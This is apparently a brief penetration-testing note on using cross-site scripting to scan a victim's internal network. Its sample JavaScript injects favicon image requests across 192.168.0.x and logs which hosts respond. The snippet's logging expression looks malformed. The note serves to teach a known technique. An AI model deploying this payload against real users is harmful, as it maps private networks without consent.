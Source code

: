 ```yaml
---
layout: post
title: XSS Port Scanning
description: XSS Port Scanning
summary: XSS Port Scanning
tags: [web,enum,foothold,xss]
minute: 1
---
```

## Overview
An attacker which is outside of your internal network can force you to browse a webpage containing malicuous javascript.

This javascript code will scan your internal network and can be modified to send results back to attacker.

## Sample Code
```javascript
<script>
  for (let i = 0; i < 256; i++) {
    let ip = '192.168.0.' + i

    let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
    document.body.innerHTML += code
 }
</script>
```

![](/spindel/assets/XSS%20Port%20Scanning/23CD500A-C9DD-4F00-A473-8A1F9AE4F120.png)

## References
* https://neonprimetime.blogspot.com/2015/09/cross-site-scripting-xss-that-port-scans.html
